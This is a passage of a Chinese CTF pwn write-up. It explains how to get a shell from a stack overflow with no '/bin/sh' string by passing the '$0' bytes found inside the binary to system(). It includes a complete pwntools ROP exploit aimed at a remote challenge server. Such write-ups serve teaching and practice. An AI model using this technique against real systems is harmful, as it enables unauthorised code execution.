


- `shell`的特殊姿势



看上去很简单的栈溢出,但是问题在于找不到能用的`/bin/sh`或者`sh`

这里出现了一个`shell`的新姿势:可以利用`system($0)`获得shell权限，`$0`在机器码中为 `\x24\x30`



在`tips`函数中正好有 `\x24\x30`可以用来构造,所以需要取出`0x400541`

关于`ida`打开机器码:`Option->general->Number of opcode改成5`

```python
from pwn import *
#io = process('./shell')
io = remote('node4.anna.nssctf.cn',28065)
elf = ELF('./shell')
pop_rdi = 0x00000000004005e3 #: pop rdi ; ret
sys_addr = 0x400557
ret_addr = 0x0000000000400416 #: ret
padding = 0x10+8

payload = b'A'*padding+p64(ret_addr)+p64(pop_rdi)+p64(0x400541)+p64(elf.plt['system'])+p64(ret_addr)
io.sendline(payload)

io.interactive()
```

